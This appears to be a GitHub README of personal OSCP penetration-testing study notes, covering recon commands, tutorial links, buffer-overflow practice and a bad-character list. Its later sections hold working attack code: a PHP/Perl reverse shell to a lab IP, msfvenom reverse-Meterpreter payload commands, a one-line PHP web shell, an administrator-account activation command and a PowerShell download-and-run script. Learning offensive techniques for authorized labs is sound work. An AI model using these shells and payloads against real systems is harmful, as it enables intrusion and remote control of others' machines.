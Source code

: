 # OSCP Notes
My notes on OSCP

### Lab Notes
Setup a good folder/file naming structure to organize your work. I have three main folders:
- exploits: work-in-progress info
    - host1
    - host2
    - _recon: network-wide scans data
- network1: contains finished hosts under network1 (moved from exploits directory)
- network2: contains finished hosts under network2
- reports


Setup shell aliases for connecting to OVPN & Windows machine
Under `.bashrc` in Kali
```
cd
lab="openvpn YOUR_OVPN_FILE.ovpn"
win="rdesktop -u username -p password 1.2.3.4"
source .bashrc
```

### Kali-specific Notes
Search exploits
```
searchsploit wordpress escalation
...snip...
cp /usr/share/exploitdb/exploits/php/webapps/12345.txt ./
````

### Recon
NMAP
```bash
nmap -A -T4 --script vulners -oN out.nmap {TARGETS}
```

Target a specific type of scripts with wildcards (e.g. smb*)
```bash
nmap -T4 --script ftp* -p 21 -oN out.nmap {TARGETS}
```

Add addtional vulnerability scanning capability to NMAP

[Vulners](https://github.com/vulnersCom/nmap-vulners)

### Web
gobuster

[Gobuster Package Description](https://tools.kali.org/web-applications/gobuster)

## Useful Tools / Cheatsheets
Handy tools/cheatsheets for lab

MS17-010
[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)

msfvenom *replaced msfpayload in older articles*
[Msfvenom Cheat Sheet](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/)

CrackMapExec
[CrackMapExec - Cheatsheet](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)

## Useful Bookmarks
How-Tos

### Windows
[Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
[AutoBlue](https://0xdf.gitlab.io/2019/02/22/wl-dummy.html)

## Credential
[Getting the goods with CrackMapExec: Part 1](https://byt3bl33d3r.github.io/getting-the-goods-with-crackmapexec-part-1.html)
[Practical Usage of NTLM Hashes](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/)

### MySQL
[GAINING A ROOT SHELL USING MYSQL USER DEFINED FUNCTIONS AND SETUID BINARIES](https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/)

### Oracle
[Variations in Exploit methods between Linux and Windows](https://www.blackhat.com/presentations/bh-usa-03/bh-us-03-litchfield-paper.pdf)

### Metasploit
[Deep Dive Into Stageless Meterpreter Payloads](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
[Offensive Msfvenom: From Generating Shellcode to Creating Trojans] (https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)

### Java
[Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)
[Java RMI](https://github.com/JoyChou93/java-sec-code/wiki/Java-RMI)

### Shell Code
[0x7 Exploit Tutorial: Bad Character Analysis](http://www.primalsecurity.net/0x7-exploit-tutorial-bad-character-analysis/)
```python
bad_chars = ""
bad_chars += "x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10"
bad_chars += "x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20"
bad_chars += "x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30"
bad_chars += "x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40"
bad_chars += "x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50"
bad_chars += "x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60"
bad_chars += "x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70"
bad_chars += "x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80"
bad_chars += "x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90"
bad_chars += "x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0"
bad_chars += "xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0"
bad_chars += "xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0"
bad_chars += "xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0"
bad_chars += "xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0"
bad_chars += "xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0"
bad_chars += "xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"
```

### Buffer Overflow Practice
Lots of scripts on github but I would recommend setup XP/Win7 box (and Immunity debugger/Mona) and practice

MiniShare 1.4.1
[MiniShare 1.4.1 - Remote Buffer Overflow (1)](https://www.exploit-db.com/exploits/616)
Software
[MiniShare 1.4.1](https://www.google.com/search?q=minishare-1.4.1.zip)


## Reverse Shell
PHP calls perl for reverse shell (quotes must be escaped properly - test it locally first!)
```php
<?php
$cmd = "perl -e 'use Socket;\$i=\"10.11.0.90\";\$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'";
shell_exec($cmd);
?>
```

WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= {IP} LPORT= {PORT} -f war > shell.war
```

EXE
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.90 LPORT=6666 -f exe -a x86 --platform win -o shell86.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST= {IP} LPORT= {PORT} -f exe -a x64 --platform win -o shell64.exe
```

## Web Shell
PHP
```php
<?php echo shell_exec($_GET["cmd"]); ?>
```

## Post-Exploitation

### Windows
Reset/activate account
```powershell
net user administrator /active:yes password123
```

WGET Replacement on Windows (echo/append each line to a script. E.g. wget.ps1)
```powershell
$storageDir=$pwd
$webclient=New-Object System.Net.WebClient
$url="http://{IP}/shell64.exe"
$file="shell64.exe"
$webclient.DownloadFile($url,$file)

c:\Users\Administrator\Desktop>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Exam related links
[A Script Kiddie’s guide to Passing OSCP on your first attempt](https://forum.hackthebox.eu/discussion/1730/a-script-kiddie-s-guide-to-passing-oscp-on-your-first-attempt)

[Pentest Book](https://chryzsh.gitbooks.io/pentestbook/content/list_of_common_ports.html)